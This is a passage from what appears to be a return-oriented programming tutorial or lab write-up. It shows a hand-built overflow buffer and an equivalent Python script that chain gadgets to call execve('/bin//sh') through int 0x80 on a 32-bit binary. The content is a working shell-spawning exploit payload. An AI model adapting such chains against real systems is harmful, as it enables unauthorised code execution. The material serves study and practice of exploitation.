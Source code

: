 Which means you could construct a buffer by hand like this:

```
55 55 55 55 55 55 55 55 55 55 55 55 55 55 <- padding
55 55 55 55 55 55 55 55 55 55 55 55 55 55 <- padding

d6 84 0b 08 <- 1. pop eax; ret; (gadget)
2f 62 69 6e <- 1. "/bin"

9a f1 06 08 <- 2. pop edx; ret; (gadget)
60 a0 0e 08 <- 2. 0x080ea060

4b 4b 05 08 <- 3. mov dword ptr [edx], eax; ret; (gadget)

d6 84 0b 08 <- 4. pop eax; ret; (gadget)
2f 2f 73 68 <- 4. "//sh"

9a f1 06 08 <- 5. pop edx; ret; (gadget)
64 a0 0e 08 <- 5. 0x080ea064

4b 4b 05 08 <- 6. mov dword ptr [edx], eax; ret; (gadget)

d6 84 0b 08 <- 7. pop eax; ret; (gadget)
00 00 00 00 <- 7. 0x00

9a f1 06 08 <- 8. pop edx; ret; (gadget)
68 a0 0e 08 <- 8. 0x080ea068

4b 4b 05 08 <- 9. mov dword ptr [edx], eax; ret; (gadget)

d6 84 0b 08 <- 10. pop eax; ret; (gadget)
0b 00 00 00 <- 10. 0x0b

c0 f1 06 08 <- 11. 0x0806f1c0: pop edx; pop ecx; pop ebx; ret; (gadget)
68 a0 0e 08 <- 11. edx = 0x080ea068
68 a0 0e 08 <- 11. ecx = 0x080ea068
60 a0 0e 08 <- 11. ebx = 0x080ea060

a0 f7 06 08 <- 12. int 80 (gadget)
```

Or, the same thing, but constructed in python:

```python
#!/usr/bin/env python
# works with python2 or python3
import struct, os

p = lambda x : struct.pack('<I', x)

os.write(1, (b'U'*28 +
      p(0x080b84d6) + b'/bin' +       # pop eax gadget
      p(0x0806f19a) + p(0x080ea060) + # pop edx gadget
      p(0x08054b4b) +                 # mov dword ptr [edx], eax gadget
      p(0x080b84d6) + b'//sh' +       # pop eax gadget
      p(0x0806f19a) + p(0x080ea064) + # pop edx gadget
      p(0x08054b4b) +                 # mov dword ptr [edx], eax gadget
      p(0x080b84d6) + p(0x00000000) + # pop eax gadget
      p(0x0806f19a) + p(0x080ea068) + # pop edx gadget
      p(0x08054b4b) +                 # mov dword ptr [edx], eax gadget
      p(0x080b84d6) + p(0x0000000b) + # pop eax gadget
      p(0x0806f1c0) + p(0x080ea068) + p(0x080ea068) + p(0x080ea060) + # pop edx,ecx,ebx gadget
      p(0x0806f7a0) + b'\n'           # int 0x80 gadget
))
```

